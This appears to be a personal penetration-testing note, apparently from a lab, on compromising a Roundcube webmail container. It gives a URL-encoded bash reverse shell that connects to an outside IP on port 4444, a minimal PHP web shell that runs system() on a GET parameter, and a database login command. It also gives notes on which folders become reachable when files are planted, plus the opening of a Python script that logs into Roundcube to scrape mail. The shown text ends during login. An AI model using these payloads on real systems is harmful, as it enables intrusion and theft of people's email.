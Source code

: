 ![[Pasted image 20250728095113.png]]
![[Pasted image 20250728095553.png]]

### reverse shell in kali

```r
http://192.168.1.2:9876/index.php?cmd=bash+-c+%27exec+bash+-i+%3E%26/dev/tcp/192.168.29.133/4444+0%3E%261%27
```

mysql -u roundcube -p -h localhost roundcube
### web_shell
```php
if (isset($_GET['cmd'])) {
    echo "<pre>";
    system($_GET['cmd']);
    echo "</pre>";
    exit;
}
```

### forbidden and accessible files:

All files inside the Roundcube container are initially forbidden, except for those under the `public_html` directory, which are accessible. However, if I create or modify a file in most of the restricted folders, it then becomes accessible. There are only four specific folders where even newly created or modified files remain inaccessible and still return a "forbidden" error which are ("SQL, bin, config, vendor").
![[Pasted image 20250723110203.png]]

### scraping roundcube

```python
import requests

from bs4 import BeautifulSoup

import os

import sys

import re

from urllib.parse import quote

import json

from email.parser import BytesParser

from email.utils import parsedate_to_datetime

from datetime import datetime, timedelta

  

def login_to_roundcube(session, base_url, username, password):

    print("[+] Getting login page to retrieve CSRF token...")

    r = session.get(f"{base_url}/?_task=login")

    soup = BeautifulSoup(r.text, "html.parser")

```